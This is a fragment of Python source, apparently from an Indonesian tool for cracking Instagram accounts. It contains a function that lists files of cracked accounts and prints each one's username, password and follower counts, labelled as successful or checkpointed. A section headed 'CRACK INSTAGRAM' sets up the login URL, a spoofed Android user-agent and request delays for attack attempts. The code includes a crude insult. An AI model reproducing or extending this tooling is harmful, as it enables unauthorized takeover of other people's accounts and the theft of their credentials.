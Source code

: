# CEK HASIL IGEH
def hasil_igehh():
	print('')
	for i in os.listdir('IG'):
		print("%s•%s> %s%s"%(U,M,J,i));jeda(0.07)
	try:
		c=input("\n%s•%s masukan file %s:%s "%(U,O,M,K))
		if c in['']:
			exit("\n%s• isi yang benar kentod"%(M))
		g=open("IG/%s"%(c)).read().splitlines()
	except FileNotFoundError:
		exit("\n%s• file tidak tersedia"%(M))
	xx=c.split("-")
	xc=xx[0]
	print(" %s# %s---------------------------------------- %s#"%(P,M,P));jeda(2)
	print('%s%s%s Total akun %s: %s%s '%(U,til,O,M,H,len(g)))
	print(" %s# %s---------------------------------------- %s#"%(P,M,P));jeda(2)
	for s in g:
		usr=s.split("|")[0]
		pwd=s.split("|")[1]
		fol=s.split("|")[2]
		ful=s.split("|")[3]
		if xc=="CP":
			print(f"""{J}╔══[ {K}Checkpoint                      
{J}║══[ {K}Username  {M}> {K}{usr}{C}
{J}║══[ {K}Password  {M}> {K}{pwd}{C}
{J}║══[ {K}Followers {M}> {K}{fol}{C}
{J}╚══[ {K}Following {M}> {K}{ful}{C}
			""");jeda(0.05)
		else:
			print(f"""{J}╔══[ {H}Berhasil                      
{J}║══[ {H}Username  {M}> {H}{usr}{C}
{J}║══[ {H}Password  {M}> {H}{pwd}{C}
{J}║══[ {H}Followers {M}> {H}{fol}{C}
{J}╚══[ {H}Following {M}> {H}{ful}{C}
			""");jeda(0.05)

#----------------------------------------------#
#---{ CRACK INSTAGRAM }---#
#---------------------------------------------#
day=datetime.now().strftime("%d-%b-%Y")
nyMnD = 5
nyMxD = 10

insta_log='https://www.instagram.com/accounts/login/?force_classic_login=&'
url='https://www.instagram.com'

USN="Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)"
